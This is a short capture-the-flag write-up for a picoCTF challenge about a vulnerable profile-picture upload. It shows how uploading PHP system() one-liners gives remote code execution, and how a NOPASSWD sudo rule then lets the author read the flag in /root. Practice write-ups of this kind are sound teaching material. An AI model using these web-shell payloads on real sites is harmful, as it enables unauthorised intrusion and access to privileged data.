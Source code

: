 # URL
https://play.picoctf.org/practice/challenge/482?category=1&page=1
# Challenge
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
You can access the web application here!
# Method of Solving
* After doing CTFs for a while, I instantly noticed it likely had to do with a file upload -> RCE.
* I've decided to use a PHP file upload
```
  <?php system('echo hello'); ?>
```
* When uploading, the website tells us: "The file exploit.php has been uploaded Path: uploads/exploit.php" All I had to do was navigate here: http://standard-pizzas.picoctf.net:63316/uploads/exploit.php
* Surprisingly, the website just says "hello," meaning the PHP code does execute on the server
* The hints tell us to run the command sudo -l (sudoers), so let's run that!
  ```
  <?php system('sudo -l'); ?>
  ```
* To no surprise, Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin User www-data may run the following commands on challenge: (ALL) NOPASSWD: ALL, we can run commands as any user
* Modify the PHP script
 ```
 <?php system('sudo cat /root/flag.txt'); ?>
 ```
* After the upload, I head over to the website to find out that indeed it works since the flag is printed!
  
  
